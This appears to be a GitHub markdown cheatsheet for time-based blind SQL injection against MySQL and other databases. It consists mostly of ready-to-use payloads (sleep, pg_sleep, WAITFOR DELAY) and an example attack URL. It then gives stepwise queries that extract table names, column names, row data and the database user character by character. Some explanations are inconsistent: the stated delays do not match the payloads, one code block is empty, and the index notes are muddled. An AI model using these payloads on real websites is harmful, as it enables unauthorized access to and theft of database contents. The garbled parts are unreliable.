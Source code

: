 # MySQL Time based SQL Injection Cheatsheet
  
  This is almost the same technique followed as [Blind Based SQLi](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Boolean%20Based%20Blind%20SQLi)
  
  ## Detecting the vulnerability
  The following stacked query detects if the website if vulnerable to Time Based SQL injection, by checking the website time response. The following condition is True because 1=1, which later executes the sleep function, so a 10 seconds delay is what we are expenting on the website's response.
  
  ```sql
  SELECT CASE WHEN (1=1) THEN pg_sleep(25) ELSE pg_sleep(0) END--
  'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
  1'=sleep(25)='1
  '%2b(select*from(select(sleep(2)))a)%2b'
  WAITFOR DELAY '0:0:25';--
  OR SLEEP(25)
  AND SLEEP(25) AND ('kleiton'='kleiton
  WAITFOR DELAY '0:0:25' and 'a'='a;--
  IF 1=1 THEN dbms_lock.sleep(25);
  SLEEP(25)
  pg_sleep(25)
  and if(substring(user(),1,1)>=chr(97),SLEEP(25),1)--
  DBMS_LOCK.SLEEP(25);
  AND if not(substring((select @version),25,1) < 52) waitfor delay  '0:0:25'--
  1,'0');waitfor delay '0:0:25;--
  (SELECT 1 FROM (SELECT SLEEP(25))A)
  %2b(select*from(select(sleep(25)))a)%2b'
  /**/xor/**/sleep(25)
  or (sleep(25)+1) limit 1 --
  ```
  
  Example:
  ```http://domain.com/index.php?id=15'XOR(if(now()=sysdate(),sleep(5*5),0))OR'```  
  If the websites response is ~15 seconds, it means it is vulnerable to this kind of attack.
   
 
 ## Retrieving the tables  
  
  Find the first character of the first table:
  ```sql
  and if((select SUBSTRING(table_name,1,1) from information_schema.tables where table_schema=database() limit 0,1)='a', sleep(10), null)--
  ```
  
  Find the second character of the first table:
```sql
and if((select SUBSTRING(table_name,2,1) from information_schema.tables where table_schema=database() limit 0,1)='a', sleep(10), null)--
```

  Find the third character of the first table:
```sql
and if((select SUBSTRING(table_name,3,1) from information_schema.tables where table_schema=database() limit 0,1)='a', sleep(10), null)--
```

Find the first character of the second table:
```sql
and if((select SUBSTRING(table_name,1,1) from information_schema.tables where table_schema=database() limit 1,1)='a', sleep(10), null)--
```

Find the second character of the second table:
```sql
and if((select SUBSTRING(table_name,2,1) from information_schema.tables where table_schema=database() limit 1,1)='a', sleep(10), null)--
```

So if you have realised by far, we are using this logic:
limit **3**,1 -> the number of the table (targeting the third character)
table_name,**3**,1 -> the number of the character in the table (targeting the fourth character of the table [the first character starts from 0, not 1])


***Guess table names***  

If you don't want to bruteforce character by character every possible table on the db, it is more efficient to bruteforce the names (if a table name is found, the request will be delayed for 5 seconds).
Guess the name of the first table:  
```sql
and IF(SUBSTRING((select 1 from [guess_your_table_name] limit 0,1),1,1)=1,SLEEP(5),1)
```


## Retrieving the columns from a table

A table has 1 or more columns. To dump the first character of the first table, use the following query:  
```sql

```

***Guessing the columns***  
(bruteforce [guess_your_column_name] with random column names untill the request is delayed by 5 seconds. Also replace [existing_table_name] with the table that you found from the previous step):  
```sql
pic_id=13 and IF(SUBSTRING((select substring(concat(1,[guess_your_column_name]),1,1) from [existing_table_name] limit 0,1),1,1)=1,SLEEP(5),1)-- -
```

## Retrieving the data from the columns  

The following payload will search for the first character of the first column in the database. If the character is guessed, then it will sleep for 5 seconds (remember to replace **table_name** and **column_name** with the table and column that you found on the previous step):  

```sql
and if((select mid(column_name,1,1) from table_name limit 0,1)='a',sleep(5),1)--
```

To search for the first character of third column in the database, you should increase the number to 3:  
```sql
and if((select mid(column_name,3,1) from table_name limit 0,1)='a',sleep(5),1)--
```

To search for the third character of the first column, you should increate the first number after **table_name limit** to 2 (the first index is 0):  
```sql
and if((select mid(column_name,1,1) from table_name limit 2,1)='a',sleep(5),1)--
```

## Finding the db user
Find the first character of the user (if guessed then the request will be 5 seconds delayed):
```sql
and if(substring(user(),1,1)='a',SLEEP(5),1)--
```

Find the second character of the user... and so on:
```sql
and if(substring(user(),2,1)='d',SLEEP(5),1)--
```

